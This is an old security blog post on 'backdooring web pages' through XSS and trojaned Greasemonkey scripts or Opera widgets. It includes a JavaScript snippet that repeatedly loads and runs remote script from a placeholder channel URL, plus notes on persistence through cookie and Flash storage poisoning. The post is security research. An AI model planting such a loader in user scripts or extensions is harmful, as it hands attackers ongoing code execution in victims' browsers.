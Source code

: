 ```yaml
---
title: Backdooring Web Pages
author: petko-d-petkov
date: Mon, 28 Aug 2006 11:09:08 GMT
template: post.jade
category: fucked
---
```


![Greasemonkey](http://www.gnucitizen.org/static/blog/2006/08/greasemonkey.jpg "Greasemonkey")

The most obvious way of maliciously infecting web pages is to perform Cross-Site Scripting (XSS). In practice, XSS vulnerabilities can be persistent and non-persistent. Depending on the type, the attacker has various degree of control. The persistent vector produces better results and it lasts longer, where non-persistent vector lasts a single hit, although it is possible for the attacker to take control of the user browser by using other techniques. Here I am trying to explore another vector that can permanently take control of the user web experience.

IMHO, there are three types of web page backdoors: non-persistent, persistent and global persistent. Non-persistent backdoors occur on a single XSS vulnerable page (hit). Persistent backdoors a bit better because they can occur on one or more XSS vulnerable pages most probably coming from the same domain (site). Global persistent backdoors occur on all domains (sites) and in theory they can last forever.

Global persistent backdoors do not rely on the server being vulnerable to XSS or any other type of server related vulnerability. Global persistent backdoors exploit browser functionalities.

In order to install global persistent backdoor the attacker can exploit known browser vulnerabilities which allow silent installation of new functionalities, exploit known extension vulnerabilities which allow [Cross Context Scripting](/blog/cross-context-scripting) (execution of malicious web content in the browser context) or [exploit the user's trust](/blog/xssing-the-lan-4) ([trojaning](/blog/xssing-the-lan-3)).

The first two scenarios rely on a browser or a browser's extensions being vulnerable. Finding those vulnerabilities may take some time and it might not be that feasible, not to mention the fact that once an attacker exploits them the entire system probably will be subjected to attacker's wishes. On the other hand, the last scenario tricks the user into performing something legitimate which in fact turns to be something malicious (trojaning). This quite old trick but very successful and widely exploited as well.

Exploiting the user's trust in order to install backdoor could be achieved in several ways each one of which provides various degree of success. The first one is asking the user to install a browser extension. This type of scenario could be successful in browsers that do not have central extension repositories. In that respect IE is probably the most vulnerable. Opera, with its Web Widgets could potentially fall into the same category. On the other hand, Firefox users tend to install extensions from known sources such as `addons.mozilla.org`, so they are the least vulnerable.

The second scenario occurs when the attacker is asking the user to install extensions of extension. This one is far more trusted since extensions of extension are believed to be harmless. Firefox's and IE's Greasemonkey extension and Opera's Web Widgets are good examples of those kinds of scenarios.

To some respect, security aware users could detect malicious scripts so they are less vulnerable. On the other hand the average user trusts the security model of the browser, so  trojaned Greasemonkey script can be quite easily installed. A sample trojaned script can contain something like the following:

    setInterval(function () {
    	var head = document.getElementsByTagName('head').item(0);
    	var old  = document.getElementById('last_loaded_cmd');

    	if (old)
    		head.removeChild(old);

    	script = document.createElement('script');
    	script.src = 'http://path/to/channel';
    	script.type = 'text/javascript';
    	script.defer = true;
    	script.id = 'last_loaded_cmd';
    	void(head.appendChild(script));
    }, 2000);

The code presented above will query every 2 seconds  **http&#58;//path/to/channel** for JavaScript code that is evaluated inside the currently open page. This model allows attackers to inject any type of JavaScript based tool (scanners, other communication channels, page key loggers, etc). Similar effect can be achieved with Opera's Web Widgets although modifications of this code are required.

This type of backdoor has a big problem. Once the user finds that the Greasemonkey script (or the Web Widget) is not needed anymore, or that it contains malicious code, proper cleaning actions will be taken.

_This is good but like any other malicious code, web page backdoors can assure the existence of hidden channels for reinstallation and further propagation. In that respect the backdoor could perform internal cross site scripting by poisoning cookies or flash objects such as [The Flash Persistent Storage Model](http://codinginparadise.org/projects/storage/README.html) which is widely used in several AJAX frameworks. Other countermeasures can be taken as well such as taking advantage of the page caching issues. All of these are related to a discipline known as DOM based Cross-site scripting._

